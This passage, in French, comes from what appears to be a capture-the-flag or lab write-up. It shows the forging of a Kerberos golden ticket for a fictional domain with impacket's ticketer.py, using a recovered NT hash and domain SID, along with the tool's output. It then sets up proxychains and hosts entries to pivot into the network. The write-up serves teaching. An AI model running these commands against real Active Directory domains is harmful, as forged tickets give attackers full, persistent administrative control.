 Chance pour nous, le manifest contient toutes les infos nécessaires pour créer un ticket d'or ! À nous la visite du domaine de Pramafil.corp
Il est aussi possible de récupérer le ticket.kirbi pour le rejouer directement.

### Création du ticket d'or 

Pour cette étape, j'ai utiliser ticketer (dispo sous [impacket](https://github.com/CoreSecurity/impacket), je conseille l'utilisation d'un virtualenv), mais vous pouvez aussi utiliser Mimikatz avec Kékéo pour la conversion du `kirbi` en `ccache`.

```
impacket/examples/ticketer.py -nthash 4d5e0617720ee5eaf21830fd8d8f75ea -domain-sid S-1-5-21-1541817219-3195100404-4088832866 -domain PRAMAFIL Administrator
Impacket v0.9.18-dev - Copyright 2002-2018 Core Security Technologies

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for PRAMAFIL/Administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncASRepPart
[*] Saving ticket in Administrator.ccache
```

Et voilà, on a un ticket d'or tout ce qu'il y a de plus valide.

### Proxychains et un peu de configuration

Pour utiliser le proxy SOCKS créé précédemment, on va utiliser [proxychains](https://github.com/haad/proxychains). Certains préférons utiliser des solutions comme [Redsocks](https://github.com/darkk/redsocks). 

**Avec proxychains pensez à bien supprimer le proxydns dans /etc/proxychains.conf si vous avez des comportements étranges.**

On configure son fichier hosts pour renseigner des noms de domaines et non pas les IP des serveurs. Ne voulant pas prendre de risque, j'ai un peu surchargé le hosts récupéré avant.

```
10.10.0.202 dcfil.pramafil.corp pramafil.corp
10.10.0.202 DCFIL.PRAMAFIL.CORP PRAMAFIL.CORP
10.10.0.202 PRAMAFIL
10.10.0.203 ad.dev.pramacorp.fr dev.pramacorp.fr
10.10.0.203 AD.DEV.PRAMACORP.FR DEV.PRAMACORP.FR
10.10.0.203 DEV.PRAMACORP.FR
10.10.0.207 preprod.pramafil.com    preprod
10.10.0.207 PREPROD.PRAMAFIL.COM    PREPROD
```

Et bien nous sommes fin prêts à infiltrer Pramafil.com
